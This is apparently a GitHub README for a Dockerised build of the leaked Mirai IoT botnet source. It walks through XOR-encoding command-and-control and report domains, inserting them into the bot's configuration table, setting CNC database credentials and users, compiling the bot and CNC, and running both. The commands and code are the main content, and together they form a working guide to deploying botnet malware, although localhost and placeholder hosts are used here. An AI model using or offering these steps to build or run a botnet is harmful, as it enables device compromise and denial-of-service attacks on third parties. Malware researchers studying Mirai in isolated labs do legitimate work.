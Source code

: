 # Mirai-Docker

https://github.com/jgamblin/Mirai-Source-Code

### Install docker and docker compose
https://docs.docker.com/get-docker/

### Download source and dockerfile
```
git clone https://github.com/deunlee/Mirai-Docker
cd Mirai-Docker
```

### Build docker containers
```
docker compose build
```

### Encrypt your domain
```
docker compose run compile ./enc.sh string cnc.mirai.com
XOR'ing 14 bytes of data...
\x41\x4C\x41\x0C\x4F\x4B\x50\x43\x4B\x0C\x41\x4D\x4F\x22
```
```
docker compose run compile ./enc.sh string report.mirai.com
XOR'ing 17 bytes of data...
\x50\x47\x52\x4D\x50\x56\x0C\x4F\x4B\x50\x43\x4B\x0C\x41\x4D\x4F\x22
```

### Configuring bot
Edit some domains in [./src/mirai/bot/table.c](./src/mirai/bot/table.c)
```c
add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x4F\x4B\x50\x43\x4B\x0C\x41\x4D\x4F\x22", 30); // cnc.mirai.com
add_entry(TABLE_CNC_PORT, "\x22\x35", 2); // 23

add_entry(TABLE_SCAN_CB_DOMAIN, "\x50\x47\x52\x4D\x50\x56\x0C\x4F\x4B\x50\x43\x4B\x0C\x41\x4D\x4F\x22", 29); // report.mirai.com
add_entry(TABLE_SCAN_CB_PORT, "\x99\xC7", 2); // 48101
```

Edit DNS server in [./src/mirai/bot/resolv.c](./src/mirai/bot/resolv.c)
```c
struct resolv_entries *resolv_lookup(char *domain)
{
    // ...

    util_zero(&addr, sizeof (struct sockaddr_in));
    addr.sin_family = AF_INET;
    addr.sin_addr.s_addr = INET_ADDR(127,0,0,1); // <-- here!
    addr.sin_port = htons(53);

    // ...
}
```

### Configuring CNC
Edit database config in [./src/mirai/cnc/main.go](./src/mirai/cnc/main.go)
```go
const DatabaseAddr string   = "mariadb" // "127.0.0.1"
const DatabaseUser string   = "user"
const DatabasePass string   = "this-is-password!"
const DatabaseTable string  = "mirai"
```

Edit prompt path in [./src/mirai/cnc/admin.go](./src/mirai/cnc/admin.go)
```go
headerb, err := ioutil.ReadFile("/home/user/src/mirai/prompt.txt") // <-- here!
```

Edit CNC user in [./src/scripts/db.sql](./src/scripts/db.sql)
```sql
-- CREATE DATABASE mirai; --- comment!

CREATE TABLE `history` (

--- ...

  KEY `prefix` (`prefix`)
);

INSERT INTO users VALUES (NULL, 'mirai-user', 'mirai-pass', 0, 0, 0, 0, -1, 1, 30, ''); --- here!
```

### Compile bot and CNC
```
docker compose run compile ./build.sh
```

### Run CNC and database server
```
docker compose up mariadb -d
docker compose run compile sudo ./src/mirai/debug/cnc
docker compose exec compile telnet 127.0.0.1
```
telnet 127.0.0.1

<!--
### Connect database for test
```
docker compose run compile
mysql -h mariadb -P 3306 -u"user" -p"this-is-password!"
use mirai;
select * from users;
```
-->

### Run bot
```
docker compose run compile ./src/mirai/debug/mirai.dbg
```
